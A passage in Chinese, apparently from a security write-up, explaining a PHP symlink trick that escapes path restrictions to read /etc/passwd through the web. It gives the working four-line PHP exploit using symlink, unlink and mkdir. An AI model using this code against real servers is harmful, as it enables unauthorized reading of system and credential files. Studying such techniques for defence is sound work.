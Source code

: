 ```php
unlink("7ea");
mkdir("7ea");
?>
```

访问该PHP文件后，后台便生成了两个目录和一个名为exp的符号链接：

![image-20231120130412346](assets/image-20231120130412346.png)

在Web中我们直接访问exp即可读取到目标文件：

![image-20231120130423281](assets/image-20231120130423281.png)

原理就是：创建一个链接文件7ea，用相对路径指向A/B/C/D，再创建一个链接文件exp指向7ea/../../../../etc/passwd。其实指向的就是A/B/C/D/../../../../etc/passwd，其实就是/etc/passwd。这时候删除7ea，再创建一个7ea目录，但exp还是指向7ea/../../../etc/passwd，所以就成功跨到/etc/passwd了。

重点在这四句：

```php
symlink("A/B/C/D","7ea");
symlink("7ea/../../../../etc/passwd","exp");
unlink("7ea");
mkdir("7ea");
```
